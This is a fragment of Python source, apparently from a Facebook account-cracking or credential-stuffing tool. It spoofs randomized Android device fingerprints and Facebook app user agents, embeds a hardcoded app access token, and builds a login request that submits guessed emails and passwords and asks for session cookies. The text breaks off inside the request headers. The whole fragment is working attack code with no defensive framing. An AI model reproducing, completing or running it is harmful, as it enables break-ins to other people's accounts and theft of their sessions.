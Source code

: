                         bbbb = random.choice(['PQ3B.190801.002', 'PQ1A.181205.002.A1', 'G950FXXU4DSBA', 'G950FXXS5DSF1', 'G950FXXS8DTC6', 'G998USQU1ATCU', 'G985FXXU7DTJ2', 'N986BXXU1BTJ4', 'A525FXXU3AUG4', 'T970XXU3BUI7', 'F916BXXU1BTKF', 'N970FXXS8ETK4', 'G975USQU4ETG1', 'A715FXXU3ATI8', 'T500XXU3BUA8', 'OPM6.171019.030.K1', 'OPM2.171026.006.C1', 'TQ1A.230105.001.A3', 'SQ1A.211205.008', 'SD1A.210817.037.A1', 'RP1A.201005.004.A1', 'PQ1A.181205.006', 'N9F27L', 'PPR1.180610.011', 'PPR2.180905.006', 'QP1A.191105.003', 'RD1A.201105.003.C1', 'MMB29U', 'NDE63H', 'N4F26J', 'NMF27D', 'N4F26X', 'KOT49H', 'JWR66L', 'LMY48G', 'LMY48J', 'MDB08M', 'HLK75H', 'HLK75F', 'HRI83', 'HLK75C', 'EPE54B', 'G950FXXU3CRGH', 'G950FXXS6DTA1'])
                        mmmmm = random.choice(['Optimus Vu', 'OT-7025D', 'P10 Lite LTE', 'P2', 'P20 Lite', 'P30 Pro (Global)', 'P3400', 'P55 Max', 'P7 Max', 'P8 Lite', 'P9 Lite', 'Pacific 800i', 'Pearl 8100', 'Phoenix 2', 'Phone', 'Pixel', 'Pixel 3', 'Pixel XL', 'Pixi', 'Prada 3.0', 'Pre3', 'Primo GH7', 'Quad EVO Energy 5', 'Quantum 4', 'Radar 4G', 'Radar C110e', 'Realme 2', 'Red Rice', 'Redmi 2', 'Redmi 3', 'Redmi 4', 'Redmi 5', 'Redmi 5 Plus', 'Redmi 5A', 'Redmi 6', 'Redmi Note 3', 'Redmi Note 4', 'Redmi Note 5', 'Redmi S2', 'Redmi Y1', 'Redmi Y2', 'Rex 60', 'Rex 80', 'Rhyme', 'RM-560', 'Ruby', 'S4502M', 'S4505M', 'S4702M', 'S580', 'S616', 'S660', 'Sensation', 'SGH-E250', 'SGH-I547', 'SM-G485F', 'Spark', 'Star 3 Duos', 'Storm 9530', 'Stream', 'Stylo 2 Plus (T-Mobile)', 'Stylus 2', 'TM-4377', 'Torch 4G 9810'])
                        mmmm = random.choice(['Optimus Vu', 'OT-7025D', 'P10 Lite LTE', 'P2', 'P20 Lite', 'P30 Pro (Global)', 'P3400', 'P55 Max', 'P7 Max', 'P8 Lite', 'P9 Lite', 'Pacific 800i', 'Pearl 8100', 'Phoenix 2', 'Phone', 'Pixel', 'Pixel 3', 'Pixel XL', 'Pixi', 'Prada 3.0', 'Pre3', 'Primo GH7', 'Quad EVO Energy 5', 'Quantum 4', 'Radar 4G', 'Radar C110e', 'Realme 2', 'Red Rice', 'Redmi 2', 'Redmi 3', 'Redmi 4', 'Redmi 5', 'Redmi 5 Plus', 'Redmi 5A', 'Redmi 6', 'Redmi Note 3', 'Redmi Note 4', 'Redmi Note 5', 'Redmi S2', 'Redmi Y1', 'Redmi Y2', 'Rex 60', 'Rex 80', 'Rhyme', 'RM-560', 'Ruby', 'S4502M', 'S4505M', 'S4702M', 'S580', 'S616', 'S660', 'Sensation', 'SGH-E250', 'SGH-I547', 'SM-G485F', 'Spark', 'Star 3 Duos', 'Storm 9530', 'Stream', 'Stylo 2 Plus (T-Mobile)', 'Stylus 2', 'TM-4377', 'Torch 4G 9810'])
                        cph = random.choice(['CPH1979','CPH1983','CPH1987','CPH2005','CPH2009','CPH2015','CPH2059','CPH2061','CPH2065','CPH2069','CPH2071','CPH2073','CPH2077','CPH2091','CPH2095','CPH2099','CPH2137','CPH2139','CPH2145','CPH2161','CPH2185','CPH2201','CPH2209','CPH1801','CPH1803','CPH1805','CPH1809','CPH1827','CPH1837','CPH1851','CPH1853'])
                        network = random.choice(['Zong','null','Marshmallow','Telekom China'])
                        ua  = "[FBAN/FB4A;FBAV/"+str(random.randint(11,77))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(11,77)) +";FBBV/"+str(random.randint(1111111,7777777))+";FBBV/2282831;FBDM/{density=3.4,width=1391,height=1609};FBLC/en_US;FBRV/774005469;FBCR/Mobilink;FBMF/Samsung;FBBD/Samsung;FBPN/com.facebook.mlite;FBDV/Samsung;FBSV/17;FBOP/5;FBCA/x86:armeabi-v7a;]"
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        secure = str(uuid.uuid4())
                        family = str(uuid.uuid4())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        xd =str(''.join(random_seed.choices(string.digits, k=20)))
                        sm=['GT-', 'SM-']
                        sim_serials = f'["{xd}"]'
                        li = ['28','29','210']
                        li2 = random.choice(li)
                        j1 = ''.join(random.choice(digits) for _ in range(2))
                        jazoest = li2+j1
                        data = {
                                'adid': adid,
                                'format': 'json', 
                                'device_id': device_id,
                                'email': ids, 
                                'password': pas, 
                                'generate_analytics_claims': '1', 
                                'credentials_type': 'password', 
                                'source': 'login', 
                                'error_detail_type': 
                                'button_with_disabled', 
                                'enroll_misauth': 'false', 
                                'generate_session_cookies': '1',
                                'generate_machine_id': '1', 
                                'locale': 'fa_AF', 'client_country_code': 'AF',
                                'fb_api_req_friendly_name': 'authenticate'}
                        headers={
                                'User-Agent':heros_UA(),